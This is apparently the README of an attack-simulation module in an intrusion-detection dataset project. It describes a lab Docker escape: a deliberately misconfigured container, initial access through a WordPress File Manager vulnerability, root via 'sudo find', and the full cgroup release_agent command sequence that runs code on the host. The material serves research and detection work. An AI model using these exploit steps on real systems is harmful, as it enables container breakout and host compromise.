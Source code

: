 # **Docker Escape**

## **Table of Contents**
* **[Explaining the attack](#explaining-the-attack)**
* **[How to Use](#how-to-use)**
  * **[Configurations](#configurations)**
  * **[Repeat mode](#for-repeat-mode)**
* **[Troubleshooting](#troubleshooting)**
  * **[Docker Escape attack fails on the reverse shell phase](#docker-escape-attack-fails-on-the-reverse-shell-phase)**

## **Explaining the attack**
---

<br/>

Docker containers are well known, documented and simple to get started with, however we need to keep in mind the way they are used and especially the permissions these containers have.

This attack simulates the situation where a web server is running inside a Docker container, used for purposes of isolation, where the developer gave the container the ability to use the mount command.

This can be achieved by adding a capability to the container which has the mount command and disabling the apparmor, since it contains a black list for capabilities. This situation can also be achieved by executing the container with the [--privileged](https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities) flag.

In our case we went with:

```
cap_add:
    - SYS_ADMIN
security_opt:
    - apparmor:unconfined
```

`cap_add` will add the SYS_ADMIN capability which will give the container the ability to execute mount.

`security_opt:` will disable the default docker apparmor profile allowing us to use the mount command.

<br/>

After getting access to the system with the Wp File Manager vulnerability ([CVE-2020-25213](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25213)) we need to get root permissions within the container in order to break the isolation, for that we simulated a misconfiguration where the www-data user is able to use only one command with sudo which is `sudo find`.

The attack is as follows:

* Gain initial access through the Wp File Manager vulnerability.
* Execute `sudo find . -exec /bin/sh \; -quit ` which will spawn a root shell
* Exploit Linux Kernel's cgroup_release_agent vulnerability ([CVE-2022-0492](https://nvd.nist.gov/vuln/detail/cve-2022-0492)) by executing the following commands:
  * `mkdir /tmp/cgroup_mount`
  * `mount -t cgroup -o rdma cgroup /tmp/cgroup_mount/`
  * `mkdir /tmp/cgroup_mount/test`
  * `echo 1 > /tmp/cgroup_mount/test/notify_on_release`
  * `dir=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)`
  * `echo $dir"/escapingDocker" >  /tmp/cgroup_mount/release_agent`
  * `echo '#!/bin/sh' > /escapingDocker`
  * `echo 'ps aux >> '$dir'/output' >> /escapingDocker`
  * `echo 'echo "PoC, injected through the container" > /File_on_Host' >> /escapingDocker`
  * `chmod a+x /escapingDocker`
  * `sh -c "echo \$$ > /tmp/cgroup_mount/test/cgroup.procs`

<br/>

This script will execute `ps aux` on the host and write the output in a file inside docker `/output` to show that we can execute code in the host and be able to read the result.
After that, it will create a file `/File_on_Host` with the content `PoC, injected through the container` so that the user can swiftly check by himself that the attack was successful.

<br/>

## **How to use**
---
<br/>

This exploit can be ran in **repeat** mode.

From the **/path/to/project/IDS-Dataset/Attacks/WP** folder,

<br/>

### **Configurations:**

If you built the victim machine from scratch using our script you can use the following settings for the Docker escape attack:

``` Shell
sudo python3 main.py -c # To start the configuration process

Attacker ip: # Check the ip address with ' ifconfig '
Victim ip: # Check the ip address with ' ifconfig '
Exploit: 3
HTTPS: n
Victim Port: 8080
Activate auditing: y # Make sure the server is on, check Aux README for information
```

<br/>


### **For Repeat mode:**
``` Shell
sudo python3 main.py -r {number_times} # Don't forget to configure the config.ini on the 1st attack
```

OR

``` Shell
sudo python3 main.py # Don't forget to configure the config.ini on the 1st attack
```

This will execute the commands mentioned [above](#explaining-the-attack).

<br/>

## **Troubleshooting**
---

### **_Docker Escape attack fails on the reverse shell phase_:**
At the end of the setup process of the victim machine you will be instructed to execute some steps in order finish setting up what wasn't possible through the script. In you modified the Docker machine, or had to re-build it you might want to re-run through this steps:

* Access http://localhost:8080 and follow the installation steps
* Access the Plugins tab and Activate the Wp File Manager plugin
* Execute in the terminal -> ```docker exec $(docker ps | grep docker_wordpress | awk '{ print $1 }') bash -c "chown -R www-data:www-data /var/www/html/wp-content/"```


This will setup the Docker machine to be in the exact same state it was during development.
